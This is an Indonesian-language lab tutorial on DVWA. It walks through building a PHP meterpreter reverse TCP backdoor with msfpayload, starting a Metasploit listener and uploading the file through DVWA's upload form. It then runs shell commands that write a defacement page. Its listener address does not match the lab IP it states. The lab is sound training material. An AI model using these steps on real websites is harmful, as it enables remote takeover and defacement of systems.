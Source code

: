 ## Lesson 8 : Upload PHP Backdoor Payload 

Pada lesson ini mengajarkan cara membuat backdoor pada website dengan cara memanfaatkan form upload file. pembuatan backdoor dengan payload yang sudah disediakan ada msfconsole. 

NOTE
----

* ip website dvwa : 192.168.56.102
* ip backtack 	: 192.168.56.101

| **Langkah 1: Membuat Reverse TCP Payload** |
| :--- |

1. Pada backtrack masuk ke direktori `/root/backdoor/`     

2. Membuat reverse tcp payload dengan menggunakan `msfpayload php/meterpreter/reverse_tcp`. buat file payload dengan command berikut

![](/assets/lesson8/2.PNG)

3. Setelah file payload terbuat, buka dengan vi dan hilangkan tanda '#' agar script bisa berjalan. dengan cara menjalankan 
	* `vi PHONE_HOME.php`
	* tekan 'x' untuk menghapus 
	* masukkan ":wq!"

| **Langkah 2: Membuat Reverse TCP Listener** |
| :--- |

1. Pada backtrack buka msfconsole dengan menjalankan command `msfconsole` untuk masuk ke metasploit

2. Setelah itu jalankan command berikut untuk membuat reverse tcp listener
	``
		use exploit/multi/handler
		set PAYLOAD php/meterpreter/reverse_tcp
		set LHOST 192.168.1.105
		set LPORT 4444
		exploit
	``

![](/assets/lesson8/3.png)

| **Langkah 3: Mengunggah Script Payload Pada DVWA** |
| :--- |

1. Lakukan login pada dvwa

![](/assets/lesson8/4.png)	

2. Set DVWA Security ke low

![](/assets/lesson8/5.png)	

3. Buka menu Upload, pada form upload pilih file PHONE_HOME.php yang telah dibuat sebelumnya

![](/assets/lesson8/6.png)	

4. File PHONE_HOME.php akan disimpan pada 192.168.56.102/dvwa/hackable/uploads/ .

![](/assets/lesson8/7.png)	

| **Langkah 4: Menggunakan Payload untuk Mengendalikan DVWA** |
| :--- |

1. Pada link tempat file disimpan, klik file agar dvwa menjalankan file tersebut.

![](/assets/lesson8/7.png)	

2. Buka msfconsole untuk melakukan command terhadap dvwa. Pada msfconsole akan muncul meterpreter kemudian masukkan command `shell` untuk dapat memulai shell scripting

3. Jalankan command berikut pada
	``
		uptime
		pwd
		whoami
		w
		echo "Hacked at 4-23-2012, by Your Name" > hacked.html
		ls -l
	``

![](/assets/lesson8/8.png)

4. Dari command tersebut akan terbuat file hacked.html pada 192.168.56.102/dvwa/hackable/uploads/hacked.html

![](/assets/lesson8/9.png)
      